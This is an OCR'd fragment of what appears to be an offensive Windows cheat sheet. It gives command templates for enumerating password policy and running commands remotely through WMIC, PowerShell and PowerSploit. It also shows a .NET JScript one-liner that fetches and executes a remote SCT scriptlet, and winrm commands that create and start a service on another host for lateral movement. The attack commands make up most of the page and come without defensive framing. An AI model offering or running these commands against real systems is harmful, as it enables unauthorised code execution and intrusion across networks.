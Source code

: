<span id="anchor-213"></span>List Local Password Policy

|              |
| ------------ |
| net accounts |

<span id="anchor-214"></span>List Domain Password Policy

|                      |
| -------------------- |
| net accounts /domain |

<span id="anchor-215"></span>Command Execution

<span id="anchor-216"></span>WMIC Execute a Command (Admin)

|                                                                 |
| --------------------------------------------------------------- |
| wmic /node:”**\<host\>**” process call create “**\<program\>**” |

<span id="anchor-217"></span>PowerShell Execute a Command (Admin, WinRM,
Port 5985)

|                                                                            |
| -------------------------------------------------------------------------- |
| Invoke-Command -ComputerName **\<host\>** -ScriptBlock { **\<command\>** } |

<span id="anchor-218"></span>PowerSploit Execute a Command (Admin,
Non-Bind)

|                                                                                                           |
| --------------------------------------------------------------------------------------------------------- |
| Invoke-WmiCommand -ComputerName **\<target\>** -Payload { **\<command\>** } | select -exp “PayloadOutput” |

<span id="anchor-219"></span>PowerShell Execution of SCT File Using .NET
Assemblies

<table>
<tbody>
<tr class="odd">
<td><p>[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');</p>
<p>[Microsoft.Jscript.Eval]::JScriptEvaluate('GetObject("script:<strong>&lt;SCT_URL&gt;</strong>").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine());</p></td>
</tr>
</tbody>
</table>

<span id="anchor-220"></span>Lateral Movement

<span id="anchor-221"></span>Create Service w/WINRM.EXE

<table>
<tbody>
<tr class="odd">
<td><p>winrm invoke Create wmicimv2/Win32_Service @{Name="<strong>&lt;name&gt;</strong>";DisplayName="<strong>&lt;name&gt;</strong>";PathName="<strong>&lt;command&gt;</strong>"} -r:http://<strong>&lt;hostname&gt;</strong>:5985</p>
<p>winrm invoke StartService wmicimv2/Win32_Service?Name=<strong>&lt;name&gt;</strong> -r:http://<strong>&lt;hostname&gt;</strong>:5985</p></td>
</tr>
</tbody>
</table>
